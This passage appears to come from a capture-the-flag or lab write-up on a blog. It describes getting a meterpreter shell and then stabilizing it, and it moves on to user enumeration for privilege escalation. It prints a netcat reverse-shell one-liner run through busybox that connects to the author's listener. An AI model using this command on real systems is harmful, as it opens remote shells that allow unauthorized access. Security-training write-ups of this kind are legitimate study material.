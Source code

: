 After running the exploit, I successfully got the shell. Now, I ran into a lot of problems here.
Using the 'shell' command in meterpreter did not return me a stable enough shell. I used other techniques to try to stabilize the shell but none worked reasonably.

I looked online and found a way to open up a port on the target that has the bash shell running and then connect to that port from my machine.

After I entered the 'shell' on meterpreter, I entered the command below to do this.

```bash
busybox nc <YOUR_IP> <YOUR_PORT> -e bash
```

Remember to replace YOUR_IP and YOUR_PORT with the actual values.

![Busybox command](assets/images/post-27-12-24/busybox_command.png)

Back in the netcat listener I started on my machine, I got the shell

![netcat shell](assets/images/post-27-12-24/success_netcat_shell.png)

With the netcat shell now operational, it was really easy to stabilize the shell and do what I needed to do from here. TryHackMe has a great room on Shells that explains some shell stabilizing techniques, you can also find some great resources online on how to do this.

## Privilege Escalation

After getting the shell on the target, I started off with user enumeration.

![User Enumeration](assets/images/post-27-12-24/users-enumerration-on-target.png)
